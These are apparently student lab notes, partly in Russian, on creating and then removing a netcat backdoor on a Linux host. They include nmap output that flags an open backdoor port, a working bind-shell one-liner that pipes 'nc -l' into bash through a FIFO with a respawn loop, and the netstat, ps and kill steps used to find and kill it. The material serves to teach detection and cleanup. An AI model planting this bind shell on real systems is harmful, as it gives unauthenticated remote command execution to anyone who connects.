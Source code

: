 	|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
	631/tcp  open  ipp      CUPS 2.2
	| http-methods: 
	|_  Potentially risky methods: PUT
	| http-robots.txt: 1 disallowed entry 
	|_/
	|_http-server-header: CUPS/2.2 IPP/2.1
	|_http-title: Home - CUPS 2.2.1
	8081/tcp open  backdoor No-auth shell (**BACKDOOR**)
	Service Info: Host: PC; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
	Nmap done: 1 IP address (1 host up) scanned in 7.61 seconds

## Cозздание бэкдора
	student@PC / $ cd /tmp
	student@PC /tmp/ $ mkfifo fifo_file
	student@PC /tmp/ $ cat fifo_file | nc -l -p 8080 | bash > fifo_file

	while true
	do
		cat fifo_file | nc -l -p 8080 | bash > fifo_file	
	done
	
## Устранение бэкдора
	student@PC / $ netstat -apn | grep 8080
	(Not all processes could be identified, non-owned process info
	 will not be shown, you would have to be root to see it all.)
	tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      29656/nc            
	student@PC / $ ps fax | grep 29656
	29779 pts/2    S+     0:00  |   |   \_ grep --color=auto 29656
	29656 pts/4    S+     0:00  |       \_ nc -l -p 8080
	student@PC / $ ps fax | grep -B 3 29656
	 4943 pts/1    Ss+    0:00  |   \_ bash
	12740 pts/2    Ss     0:00  |   \_ bash
	29788 pts/2    R+     0:00  |   |   \_ ps fax
	29789 pts/2    S+     0:00  |   |   \_ grep --color=auto -B 3 29656
	16188 pts/3    Ss+    0:00  |   \_ bash
	29186 pts/4    Ss     0:00  |   \_ bash < родитель
	29655 pts/4    S+     0:00  |       \_ cat aa
	29656 pts/4    S+     0:00  |       \_ nc -l -p 8080
	^^^^^ PID бэкдора
	student@PC / $ kill 29656 бэкдор перезапустился
	student@PC / $ kill 29186 
	student@PC / $ kill -9 29186 бэкдор уничтожен
	student@PC / $ netstat -apn | grep 8080
								пусто!
	student@PC / $ nmap localhost
	Not shown: 996 closed ports
	PORT    STATE SERVICE
	22/tcp  open  ssh
	25/tcp  open  smtp
	80/tcp  open  http
	631/tcp open  ipp
															Порта 8080 нет в списке!
